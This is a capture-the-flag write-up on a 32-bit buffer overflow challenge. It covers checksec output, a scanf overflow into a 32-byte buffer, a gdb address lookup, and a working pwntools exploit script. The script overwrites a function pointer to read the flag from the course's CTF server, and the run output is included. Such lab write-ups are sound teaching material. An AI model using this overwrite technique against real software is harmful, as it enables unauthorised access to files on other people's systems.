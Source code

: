 # Buffer Overflow: CTF #5

## Checksec

```bash
$ checksec program
Arch:       i386-32-little
RELRO:      No RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x8048000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
Debuginfo:  Yes
```

The `checksec` output is equivalent to the one in the guide:

- 32 bits program
- No canary to protect the stack (despite the output saying otherwise)
- Stack with read, write and execute permissions
- No Position Independent Executable (PIE) protection

## Source code analysis

- The file `rules.txt` is open and read when called by `readtxt()`.
- It is possible to read the contents of any file inside the server by modifying the function pointer `fun` to the address of `readtxt()`.
- The `scanf()` call is susceptible to buffer overflow because it specifies 45 bytes to be read into the `buf` variable, which is only 32 bytes long.

## Objective

Modify the function pointer `fun` to the address of `readtxt()` and point the first argument to the string `flag` using the buffer overflow vulnerability in the `scanf()` call, so that in line 27 the flag is printed instead of our input.

## Vulnerability exploration

- For this exploit, it is necessary to know the address of the `readtxt()` function, which is `0x080497a5` according to the output of `gdb`:
  ```bash
  $ gdb program
  [...]
  gdb-peda$ x readtxt
  0x80497a5 <readtxt>:	0x53e58955
  ```

Having this in mind, here is how the payload and the exploit script are built:
- `flag\0` as an argument to the `readtxt()` function.
- `_` to fill the rest of the buffer; the content itself is irrelevant.
- `\xa5\x97\x04\x08` to overwrite the `fun` pointer with the address of the `readtxt()` function.

The exploit script is as follows:
```python
#!/usr/bin/python3
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4000)
# r = process('./program')

# Payload =====================================================

s =  b"flag\0" + b"_" * 27 + b"\xa5\x97\x04\x08"

# =============================================================

res = r.recvuntil(b"flag:\n")
print(res)
r.sendline(s)
buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```

Executing the script, results in obtaining the flag as follows:
```bash
$ python3 exploit.py 
[+] Opening connection to ctf-fsi.fe.up.pt on port 4000: Done
b'Read the rules.\nTry to unlock the flag:\n'
[+] Receiving all data: Done (26B)
[*] Closed connection to ctf-fsi.fe.up.pt port 4000
flag{4dm1n_fun_w45_0wn3d}
```
